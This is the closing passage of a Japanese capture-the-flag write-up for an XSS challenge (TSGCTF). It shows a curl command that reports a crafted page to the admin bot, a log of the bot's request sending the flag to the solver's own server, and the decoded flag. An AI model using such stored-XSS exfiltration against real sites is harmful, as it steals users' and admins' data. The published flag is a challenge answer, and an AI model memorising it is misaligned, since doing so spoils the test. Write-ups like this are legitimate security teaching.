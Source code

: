 ![xss.png](site/xss.png)  
あとはこれを以下のようにadminに報告するだけだ。  
```bash
$ curl -X POST http://104.198.119.144:7891/report -H 'Content-Type: application/json' -d '{"path":"/presets/j3vBwZ1jKz4riRhkTBuor"}'
{"message":"Reported. Admin will check the page."}
```
すると自身のサーバで以下のリクエストを受け取る。  
```
GET /
GET /?flag=TSGCTF{8ab2815d40|reset!if%20d<P653124710Y|ac7aa4}
```
URLのエンコードを直すとflagとなった。  

## TSGCTF{8ab2815d40|reset!if d<P653124710Y|ac7aa4}